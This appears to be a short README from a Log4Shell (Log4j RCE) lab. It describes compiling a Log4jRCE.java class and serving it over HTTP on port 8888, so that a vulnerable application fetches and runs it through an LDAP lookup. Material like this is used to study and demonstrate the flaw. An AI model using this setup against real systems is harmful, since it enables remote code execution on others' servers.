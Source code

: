 ## This is to emulate the remote code repository which hosts attacker codes.
## These codes are then downloaded & serialized by the vulnerable application via LDAP lookup up

1. Compile Log4jRCE.java
<pre>
$ javac Log4jRCE.java

$ ls
-rw-r--r-- 1 rafsyam 197121 1.7K Feb 22 03:54 Log4jRCE.class
</pre>

2. Run a simple http server to host the code at port 8888
<pre>
$ ./run-server.sh
Serving HTTP on :: port 8888 (http://[::]:8888/) ...
</pre>